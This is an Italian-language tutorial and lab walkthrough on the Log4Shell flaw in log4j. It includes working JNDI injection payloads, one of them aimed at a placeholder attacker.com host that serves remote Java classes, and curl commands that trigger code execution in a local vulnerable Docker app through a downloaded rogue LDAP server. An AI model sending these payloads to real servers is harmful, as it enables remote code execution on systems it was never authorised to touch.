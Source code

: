 #+TITLE: Log4Shell – CVE-2021-4428 (ITA)
#+AUTHOR: Leonardo Tamiano

* Introduzione
  Questa vulnerabilità, chiamata ~Log4Shell~, è relativa al software
  ~log4j2~, una libreria di logging scritta in Java ed utilizzata in
  molti progetti Java.

  Le versioni affette da questa vulnerabilità sono le versioni di
  ~log4j~ da ~2.0~ a ~2.14.1~.

  La versione ~2.15.0~ è stata rilasciata nel repository Maven:
  - https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.15.0/

* Requisiti
  Per far funzionare l'exploit devono essere soddisfatti i necessari
  requisiti:

  - Un server che utilizza una versione vulnerabile di ~log4j~.

  - Un endpoint che permette ad un attaccante di inviare un messaggio al server.

  - Il server che riceve il messaggio che deve poi utilizzare la
    versione vulnerabile di ~log4j~ per loggare quel messaggio.

* JNDI and JNDI Injections
  The ~Log4Shell~ vulnerability (CVE-2021-44228) is a simple ~JNDI
  injection flaw~ but in a bad place.

  ----------------------

  Se log4j si trova a loggare messaggi del tipo

  #+begin_example
${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
  #+end_example

  ovvero con placeholders, log4j effettua un ~JNDIlookup()~.

  ----------------------

  La ~JNDI~ sta per ~Java Naming and Directory Interface~, una java API
  che permette di connettere una applicazione Java ad un ~extrnal
  directory service~, come ad esempio un server ~LDAP~.

  In una installazione di default di JNDI, sono due i protocolli
  supportati: RMI e LDAP. In entrambi i casi la chiamata di lookup()
  deve ritornare un Java Object.

  #+begin_example
Long story short:
 - Do not rely on a current Java version to save you.
 - Update Log4 (or remove the JNDI lookup).
 - Disable the expansion (seems a pretty bad idea anyways).
  #+end_example
  
* Exploit steps

  1. L'utente invia il payload malevolo al server (qualsiasi protocollo).

     #+begin_example
${jndi:ldap://attacker.com/a}
     #+end_example
  
  2. Il server logga il payload presente nella richiesta tramite ~log4j~.
     
  3. La vulnerabilità di log4j viene triggerata, e una richiesta viene
     fatta al sito ~attacker.com~ tramite un JNDI lookup()

  4. La risposta del lookup() contiene la path (URL) ad una classe
     java remota, ovvero un file .class hostato in un wb server, tipo

     #+begin_example
http://second-stage.attacker.com/Exploit.class
     #+end_example

     che viene iniettato nel processo del server.

  5. Questo payload permette poi di ottenere una RCE nel server.
  
* Esempio
  Consideriamo i seguenti due codici java, che rappresentano una
  semplice applicazione Spring vulnerabile a questo attacco.

  codice: ~VulnerableAppApplication.java~
  #+begin_src java
package fr.christophetd.log4shell.vulnerableapp;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class VulnerableAppApplication {

	public static void main(String[] args) {
		SpringApplication.run(VulnerableAppApplication.class, args);
	}

}  
  #+end_src

  codice: ~MainController.java~
  #+begin_src java
package fr.christophetd.log4shell.vulnerableapp;


import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestHeader;
import org.springframework.web.bind.annotation.RestController;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }

}
  #+end_src

  Come possiamo vedere, l'unica cosa che che fa questa applicazione è
  utilizzare la funzione ~logger.info()~ per loggare il messaggio
  contenuto nel campo HTTP-header chiamato ~X-Api-Version~.

  --------------------

  Per exploitare questo codice bastera inviare la seguente richiesta
  con ~curl~

  #+begin_src sh
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
  #+end_src

  Notiamo che il payload malevolo nel campo ~X-Api-Version~ è il seguente

  #+begin_example
${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
  #+end_example

  Questo payload utilizza la ~JNDI~, ovvero la ~Java Naming and Directory
  Interface~, una java API che permette di connettere una applicazione
  Java ad un ~extrnal directory service~, come ad esempio un server
  ~LDAP~.

  LDAP è un "lightweight directory access protocol", ovvero un
  protocollo che permette alle applicazioni di richiedere informazioni
  riguardanti gli utenti in modo veloce e flessibile.

  Per far funzionare il payload malevolo mostrato in alto dobbiamo
  prima lanciare un nostro server LDAP malevolo.

  -----------------------

* Risorse
  Per la realizzazione di questo articolo sono state utilizzate le
  seguenti risorse:

  - https://www.lunasec.io/docs/blog/log4j-zero-day/
  - https://www.okta.com/identity-101/what-is-ldap/
  - https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/
  - https://mbechler.github.io/2018/01/20/Java-CVE-2018-2633/
  - [[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java][malicious LDAP server]]

* Video walkthrough
  Spiegazione exploit generica.

** Demo su kali
  - Installazione docker

    #+begin_src sh
sudo apt-get install docker.io
    #+end_src

  - Esecuzione macchine per exploit
    
    https://github.com/christophetd/log4shell-vulnerable-app

    1. Spring application con log4j vulnerabile a log4shell

       #+begin_src sh
docker run --name vulnerable-app --network="host" -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
       #+end_src

  2. server LDAP malevolo

     #+begin_src sh
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
   #+end_src

  3. A questo punto lo possiamo lanciare con

     #+begin_src sh
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
     #+end_src

  Notiamo l'output del server LDAP e verifichiamo che il comando sia
  stato eseguito con

  #+begin_src sh
docker exec vulnerable-app ls /tmp
  #+end_src

** Analisi codice  
   Analisi codice:

*** codice vulnerabile log4j

     ~MainController.java~
     #+begin_src java
package fr.christophetd.log4shell.vulnerableapp;


import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestHeader;
import org.springframework.web.bind.annotation.RestController;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
	logger.info("Received a request for API version " + apiVersion);
	return "Hello, world!";
    }

}
     #+end_src

     ~VulnerableAppApplication.java~
     #+begin_src java
package fr.christophetd.log4shell.vulnerableapp;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class VulnerableAppApplication {

    public static void main(String[] args) {
	SpringApplication.run(VulnerableAppApplication.class, args);
    }

}
     #+end_src

*** codice malevolo LDAP
    https://github.com/feihong-cs/JNDIExploit

    File interessanti:

    - src/main/jav/com/feihong/ldap/Starter.java
    - src/main/jav/com/feihong/ldap/LdapServer.java
    - src/main/jav/com/feihong/ldap/template/CommandTemplate.java
